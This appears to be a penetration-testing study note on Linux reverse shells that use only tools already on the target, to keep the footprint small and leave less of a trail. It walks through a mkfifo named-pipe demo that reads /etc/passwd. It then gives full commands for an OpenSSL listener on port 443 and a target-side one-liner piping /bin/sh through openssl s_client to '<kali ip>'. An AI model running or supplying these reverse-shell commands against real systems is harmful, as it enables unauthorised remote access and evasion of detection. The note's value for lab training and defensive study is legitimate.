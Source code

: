 - All of the methods we will cover take advantage of utilities that are already installed on a target Linux machine. The less we need to bring to a machine, the better.
- This reduces our footprint on a compromised host and leaves less of a trail.


### Reverse Shells
- Are connections that are initiated from a compromised host and connect back to an attacker Command and Control (C2) or in simpler scenarios, to a basic listener service.
- We need to find new ways to create connections back using lesser-known methods or methods that might not be necessarily expected.

#### OpenSSL Reverse Shell
- OpenSSL client and server-based technique in conjunction with what are known as mkfifo names pipes.

```
mkfifo named pipe creates a named instance (a file) of a series of piped commands, as a file on the filesystem, which can be referenced and used to redirect (<>) output to and from the named pipe (file).
```

#### Understanding the Mkfifo process
```
mkfifo a_pipe
gzip -9 -c < a_pipe > out.gz &
cat /etc/passwd > a_pipe
gunzip out.gz
cat out
```

- create our pipe (a_pipe)
- create a gzip process which our pipe will listen For input from, and when input is received, will redirect it to a file called **out.gz**. We run it as a background process (&)
- **cat** the passwd file and redirect the output to out a_pipe which creates an **out.gz** file containing out catd content.
- extract our out.gz file, and we can see that the **out** contents contained the results of out cat /etc/passwd command.

#### back to the OpenSSL Reverse Shell
- Generate an SSL certificate key pair For our listener on the attacker machine

```
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
```
   // this will create two files **key.pem** and **cert.pem**. For our listener.

- start our listener using openssl 

```
openssl s_server -quit -key key.pem -cert cert.pem -port 443
```

- on the target, create mkfifo named pipe that will connect back to our attacker (over SSL)

```
mkfifo /tmp/x; /bin/sh -i < /tmp/x 2>&1 | openssl s_client -quiet -connect <kali ip>:443 > /tmp/x; rm /tmp/x
```
